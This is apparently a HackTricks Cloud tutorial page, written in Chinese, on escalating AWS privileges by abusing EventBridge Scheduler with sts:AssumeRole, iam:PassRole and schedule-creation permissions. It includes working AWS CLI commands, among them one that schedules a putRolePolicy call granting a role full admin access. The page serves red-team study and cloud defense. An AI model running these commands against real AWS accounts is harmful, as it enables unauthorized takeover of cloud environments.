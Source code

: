 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler 可用于通过调度对各种 AWS 服务的调用来进行权限提升。通过利用其按计划调用服务的能力，具有足够权限的用户可以提升权限。以下是 EventBridge Scheduler 可以使用模板目标触发的一些关键操作：

- Lambda: lambda:InvokeFunction - 按计划调用 Lambda 函数。
- CodeBuild: codebuild:StartBuild - 启动 AWS CodeBuild 项目。
- CodePipeline: codepipeline:StartPipelineExecution - 触发 AWS CodePipeline 执行。
- ECS: ecs:RunTask - 运行 ECS 任务。
- EventBridge: events:PutEvents - 将事件放入 EventBridge。
- Inspector: inspector:StartAssessmentRun - 启动 Amazon Inspector 评估。
- Kinesis: kinesis:PutRecord - 将记录放入 Kinesis 流。
- Firehose: firehose:PutRecord - 将记录放入 Firehose 交付流。
- SageMaker: sagemaker:StartPipelineExecution - 启动 SageMaker 管道执行。
- SNS: sns:Publish - 向 SNS 主题发布消息。
- SQS: sqs:SendMessage - 向 SQS 队列发送消息。
- Step Functions: states:StartExecution - 启动 AWS Step Functions 的执行。

这些只是 EventBridge Scheduler 可以执行的一些模板操作。然而，通过使用通用目标，可以调用许多其他 AWS 服务的操作。通用目标允许进行超出模板列表的更广泛的 API 操作。

有关 EventBridge Scheduler 的更多信息：

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

具有 `sts:AssumeRole`、`iam:PassRole` 和 `scheduler:CreateSchedule 或 scheduler:UpdateSchedule` 权限的用户可以通过利用 EventBridge Scheduler 调用使用更高权限角色的服务来提升权限。

拥有这些权限，攻击者可以假设一个具有更高权限的角色，并在创建或更新计划时将该角色传递给 EventBridge Scheduler。该计划可以配置为执行之前列出的任何操作，例如调用 Lambda 函数、启动 ECS 任务、触发 CodePipeline 执行或执行 EventBridge Scheduler 支持的 270 个 AWS 服务中的任何操作。通过调度这些操作，攻击者可以滥用更高的权限在 AWS 服务中执行未经授权的操作。
\\

例如，他们可以配置计划以调用一个 Lambda 函数，这是一个模板操作：
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
除了模板化的服务操作，您可以在 EventBridge Scheduler 中使用通用目标来调用许多 AWS 服务的广泛 API 操作。通用目标提供了灵活性，可以调用几乎任何 API。一个例子是使用通用目标添加 "AdminAccessPolicy"，使用具有 "putRolePolicy" 策略的角色：
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## 参考文献

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
